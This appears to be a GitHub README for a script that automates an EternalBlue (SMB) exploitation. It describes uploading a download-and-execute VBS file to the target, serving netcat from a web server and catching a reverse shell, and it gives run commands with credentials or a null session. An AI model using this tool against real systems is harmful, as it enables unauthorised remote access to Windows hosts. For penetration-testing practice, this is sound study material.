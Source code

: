 ### Title: A handy script for kali box 

>  Description: In short the specific script automates the exploitation procedure of the specific vulnerability:

1. Uploads downloadAndExecute.vbs to the target machine
2. Starts a web server (at port 80) in order to deliver a netcat binary
3. Starts a listener at a given port (see LHOST , LPORT)

In case of successfull exploitation you get a reverse shell at the listener's window

**Usage**:

1. Download the repo localy:

   #git clone https://github.com/Ch0pin/EternalBlue.git

2. cd to EternalBlue and run

```bash
root@kali#./run.sh <username> <password> <LHOST> <LPORT> <RHOST> <Named_pipe>

```

**Examples:**

1. In case of known username/password Run:

```bash
./run.sh 'Chopin' 'password' 10.10.10.1 4444 10.10.10.2 Browser
```

2. In case a null session is allowed Run:

```bash
./run.sh '' '' 10.10.10.1 4444 10.10.10.2 ''
```

